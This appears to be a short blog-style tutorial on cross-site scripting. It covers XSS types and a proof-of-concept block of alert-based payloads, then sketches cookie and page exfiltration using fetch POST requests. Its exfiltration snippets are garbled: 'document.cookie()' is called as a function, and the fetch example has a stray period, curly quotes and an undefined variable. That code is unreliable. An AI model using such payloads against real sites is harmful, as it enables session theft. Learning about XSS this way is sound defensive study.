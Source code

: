 ```yaml
---
title: "Understanding Cross-Site Scripting (XSS)"
date: 2023-12-12 12:00:00 -0000
categories: [web, XSS]
tags: [xss, fundamentals]
permalink: /web/xss/
---
```


## Introduction

Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users.

## Types of XSS

1. **Stored XSS**: The malicious script is permanently stored on the target server.
2. **Reflected XSS**: The malicious script is reflected off a web server, such as in an error message or search result.
3. **DOM-based XSS**: The vulnerability exists in client-side code rather than server-side code.

## How XSS Works

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser-side script, to a different end user. The end user's browser has no way to know that the script should not be trusted and will execute it. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.

It’s used when you find an unsanitized input that you can write things that a webpage can read as html code.

POC:

```html
<h1>Hola</hola>
<script>alert("This is XSS")</script>
<img src="x" onerror="alert('This is XSS')"/> <!--also valid with onload -->
javascript:alert('This is XSS') 
```

This can be used to exfiltrate cookies.

To do this, you need to make someone use the malicious url that you created to get the cookies

```html
<script>document.cookie()</script>
```

There is also another way to get the entire code from a webpage, when you can also get cookies.
    
```html
fetch(“[URL]”, {
method : “POST",
body : "FLAG" 
}).then(response => response.text())
.then(output => console.log(output))

<!-- example -->

fetch('https://google.com'.{
	method: 'POST',
	body: contenido
}).then(r => r.text()).then(contenido => {console.log(contenido)})
```